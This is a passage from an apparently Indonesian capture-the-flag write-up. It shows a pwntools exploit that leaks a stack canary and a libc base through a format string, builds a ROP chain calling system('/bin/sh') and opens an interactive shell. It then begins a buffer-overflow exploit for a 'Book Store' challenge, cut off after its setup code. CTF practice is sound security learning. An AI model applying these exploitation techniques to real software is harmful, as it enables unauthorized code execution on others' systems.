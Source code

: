 ```python
        leaked = p.recvline().strip()
        p.sendline(b"foo")
        p.recvuntil(b"Password Manager")
        return leaked

x, p = init()
x.debug((
        "source /usr/share/gef/gef.py\n"
        "set disable-randomization off\n"
        # "break *add_password+303\n"
        "c\n"
))
# for i in range(100):
    # res = x.leak(f"%{i}$x")
    # print(i,res)
    # canary 23

canary = eval(b"0x"+x.leak("%23$x"))

leaked = eval(b"0x"+x.leak("%4$x"))
libc.address =  leaked-0x226da0
print(hex(libc.address))
pad = b"A".rjust(32, b"\x00")+p32(canary)+cyclic(12)

r = ROP(libc)
r.call(r.find_gadget(['ret']))
r.call('system', [libc.search(b'/bin/sh').__next__()])

p.sendline(b"1")
p.sendline(b"foo")
p.sendline(flat(pad,r))

p.interactive()
```

## Book Store

Pada challenge ini kita akan mengeksploitasi kerentanan buffer overflow, berikut payload yang saya gunakan untuk merubah return address agar ke addres fungsi yang didalamnya terdapat fungsi untuk membaca flagnya:

```python 
from pwn import *
import sys

BINARY = "vuln"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 32


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p
```